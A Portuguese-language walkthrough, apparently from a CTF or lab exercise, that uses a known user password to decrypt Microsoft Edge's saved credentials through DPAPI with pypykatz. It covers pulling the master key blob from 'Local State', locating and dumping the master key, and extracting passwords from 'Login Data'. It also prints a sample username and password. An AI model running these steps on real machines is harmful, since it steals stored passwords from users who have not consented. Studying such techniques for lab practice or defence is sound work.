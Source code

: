 ###### Info
```sh
User        : developer
Password    : P@ssw0rd
```

O arquivo que armazena as senhas do edge costuma está criptografado com o mecanismo do DPAPI. O DPAPI é uma forma de criptografia do Windows que usa a senha do usuário para criptografar os arquivos/informações. Como nós sabemos a senha do usuário Developer, podemos usá-la para descriptografar.
###### Banco de dados com a senha
Esse é o banco de dados que armazena as credenciais
```sh
$ C:\Users\developer\appdata\local\microsoft\edge\user data\default\login
data
```
###### Local State
Iremos identificar a Master Key pelo arquivo “Local state”. Extraindo o blob do DPAPI do arquivo “local state”:
```sh
$ C:\Users\developer\appdata\local\microsoft\edge\user data\local
state
```

Retiramos o blob
```sh
$ cat 'Local State' | jq -r .os_crypt.encrypted_key | base64 -d | cut -c6- >
dpapi_blob
```

Agora fazemos a identificação:
```sh
$ pypykatz dpapi describe blob dpapi_blob
d75214e4-4dec-4f0b-b133-bbe5a8024962
```
###### Localizer a master key
A master key fica localizada dentro da pasta nomeada com o SID ,pode haver mais de uma, por isso fizemos o processo anterior,para sabermos a chave certa. Agora fazemos o dump da Master Key certa e anotamos  o SID
```sh
$ C:\Users\developer\AppData\Roaming\microsoft\protect> ls
S-1-5-21-2710987025-548725527-3012655242-1002

$ C:\Users\developer\AppData\Roaming\microsoft\protect> cd S-1-5-21-2710987025-548725527-3012655242-1002

$ C:\Users\developer\AppData\Roaming\microsoft\protect\S-1-5-21-2710987025-548725527-3012655242-1002> ls

$ C:\Users\developer\AppData\Roaming\microsoft\protect> gci -hidden
d75214e4-4dec-4f0b-b133-bbe5a8024962
```
Devido as proteções deste arquivo temos que fazer o dump via smb.
#### Cracking
###### Gerando a prekey file
```sh
$ pypykatz dpapi prekey password S-1-5-21-2710987025-548725527-3012655242-1002
'[Developer Password]' > prekey_file
```
###### Gerando a masterkey file
```sh
$ pypykatz dpapi masterkey d75214e4-4dec-4f0b-b133-bbe5a8024962 prekey_file -o
masterkey_file
```
###### Extraindo a senha
```sh
$ pypykatz dpapi chrome --logindata 'login data' masterkey_file 'local state'
```